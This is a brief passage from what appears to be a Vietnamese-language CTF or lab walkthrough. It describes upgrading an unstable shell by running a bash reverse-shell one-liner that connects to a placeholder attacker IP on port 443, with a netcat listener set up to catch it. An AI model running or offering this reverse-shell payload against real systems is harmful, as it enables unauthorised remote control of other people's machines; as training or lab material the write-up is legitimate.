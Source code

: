 ![alt text](image-18.png)

Đã có shell, tuy nhiên, nó không ổn định và tương tác lắm. Để làm cho nó ổn định hơn, sử dụng payload sau:

```
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```

Bật trình lắng nghe netcat trên cổng 443:

![alt text](image-19.png)

Sau đó thực thi payload:

![alt text](image-20.png)
